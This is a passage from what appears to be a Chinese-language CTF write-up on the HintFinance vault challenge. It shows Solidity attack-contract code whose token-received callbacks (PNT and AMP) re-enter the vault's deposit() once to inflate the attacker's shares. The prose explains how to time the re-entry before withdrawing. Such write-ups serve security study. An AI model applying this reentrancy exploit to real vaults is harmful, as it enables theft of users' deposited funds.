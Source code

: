 ```solidity
        // 7. 执行完钩子函数之后，我们将我们的余额减去bal-1，此时不会失败，因为我们的deposit()时给我们记录了好几倍的金额
        totalSupply -= shares;
        // 8.最后减去一小部分shares
        balanceOf[msg.sender] -= shares;
        return amount;
    }
```

我们需要控制好回调函数的条件，什么时候重入什么时候停止重入。在这里，我们重入一次就好，重入一次就可以获得很大的shares。

```solidity
    // PNT的回调函数
    function tokensReceived(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    )external{
        if (amount == prevAmount) {
            console.log("   balance(vault)-1:",amount);
            uint256 share = HintFinanceVault(vault).deposit(amount - 2); // 这样就不符合amount == prevAmount而再次重入了
            console.log("   attack's share:",share);
        }
    }

    // AMP的回调函数
    function tokensReceived(
        bytes4 functionSig,
        bytes32 partition,
        address operator,
        address from,
        address to,
        uint256 value,
        bytes calldata data,
        bytes calldata operatorData
    )external{
        if (value == prevAmount) {
            console.log("   balance(vault)-1:",value);
            uint256 share = HintFinanceVault(vault).deposit(value - 2); // 这样就不符合amount == prevAmount而再次重入了
            console.log("   attack's share:",share);
        }
    }
```

最终扣除一笔小的share，但授权很大数目的shares，然后我们可以使用正常的`withdraw()`取钱即可

#### 3.2ERC20

##### 发现漏洞
